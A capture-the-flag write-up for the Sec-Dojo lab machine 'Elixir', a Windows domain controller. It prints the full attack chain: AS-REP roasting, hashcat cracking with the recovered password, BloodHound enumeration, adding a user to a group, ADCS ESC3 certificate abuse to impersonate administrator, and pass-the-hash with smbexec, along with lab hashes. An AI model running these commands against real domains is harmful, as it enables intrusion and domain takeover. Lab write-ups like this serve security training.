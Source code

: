 ```yaml
---
layout: post
title: "Elixir"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, Secdojo]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
# image:
#   path: /assets/img/commons/hackthebox.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Hackthebox Image
---
```


Elixir is an easy machine on [secdojo platform](https://cyberlab.sec-dojo.com/en/labs/active)


starting with nmap 

```bash
sudo nmap 10.8.0.2 -sC -sV -p- -oN nmap -T4
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011181947.png)




so it's a DC with an open web page on port 80


by reading the HTML code of page , I found the format of users in the Domain 

`Em.Br`
```HTML
  <!-- Footer-->
    <footer id="contact" class="py-5 bg-black">
        <div class="container px-5">
            <p class="m-0 text-center text-white small"><a href="[mailto:Em.Br@secdojo.local](mailto:Em.Br@secdojo.local)" class="text-white">Email us</a></p>
            <p class="m-0 text-center text-white small">Copyright &copy; Sec-Dojo 2024</p>
        </div>
    </footer>
    <!-- Bootstrap core JS-->
    <script src="[js/bootstrap.bundle.min.js](view-source:http://10.8.0.2/js/bootstrap.bundle.min.js)"></script>
    <!-- Core theme JS-->
    <script src="[js/scripts.js](view-source:http://10.8.0.2/js/scripts.js)"></script>
</body>
</html>
```

 I make a wordlist with all the users in the website using the  same format 

```txt
Em.Br
Ad.Cr
Bo.Jo
```


the only attacks that comes in my mind at this moment is asreproasting 

```bash
impacket-GetNPUsers secdojo.local/ -usersfile users  -outputfile asrep
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011180718.png)

```bash
 hashcat -a 0 asrep /usr/share/wordlists/rockyou.txt

$krb5asrep$23$Ad.Cr@SECDOJO.LOCAL:d51be14d3aa50cb4f878950c397fd52c$f6861835364bb255acdcf9cb14e162e410a8ce07597fed7fafc410ed59b3cab97255441f8b652e6a63951e183ea7b759f6a7f5e73762c8d535316b891ef5c47fbf9350c525713fa067ab80329803e8fb6a37548eaf1f14cc5d39d0f9897c0a84335f0edc83c6a8a65d89c132ac345c2693825d9dd554f563fa908213672fcd2153e24283ad59f3040a194352a46b95646922542ea37a7be06f17478fcdbe0e18e1ce6340b73707dc3a08b1f1eb1dc2f7154ecfb5315b166ebf859139aafbbf4986a3181a0e44b95b6327e9df8edb4412b0aa6a927c5c6ed7511b1984bd9884f9b4e5c1a9ce437acf6715fd07f804:RockYou!
```


after enumerating the shares , ADCS nothing really interesting 

so let's see bloodhound
```bash
RustHound/target/release/rusthound  -d secdojo.local -u 'Ad.Cr@secdojo.local' -p 'RockYou!'   -z
```

taking a look at bloodhound

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011181025.png)


we can add our controlled user to `HELPDESK Group`

```bash
net rpc group addmem "HelpDesk" "AD.CR" -U "secdojo.local"/"AD.CR"%"RockYou\!" -S "10.8.0.2"
```

well , I was stuck here for long time 

remember  : enumeration is iterative process which means when you got new user / group ...

I should redo the whole enumeration again , (Including ADCS).

when running `Certipy` at first it didn't catch the `ESC3` , after adding my user to `helpdesk user` it does , because this group has the right to enroll this template 

```bash
certipy-ad find -u Ad.Cr -p 'RockYou!' -stdout  -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182048.png)

```bash
certipy-ad req -u 'Ad.Cr@secdojo.local' -p 'RockYou!' -ca 'SecDojoRootCA' -template 'Enrollement' -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182150.png)

```bash
certipy-ad req -u 'Ad.Cr@secodjo.local' -p 'RockYou!' -ca 'SecDojoRootCA'  -template 'User' -on-behalf-of 'administrator' -pfx ad.cr.pfx -dc-ip 10.8.0.2
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182250.png)

```bash
 certipy-ad auth -pfx administrator.pfx
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011182314.png)


the stupid AV will catch psexec :(
```bash
impacket-smbexec secdojo.local/Administrator@10.8.0.2  -hashes :91c49c1fad45e7b9dbdcd7d3c44a880d
```

![/home/user/myblog/_site](/assets/img/posts/Elixir/Pasted image 20241011183756.png)

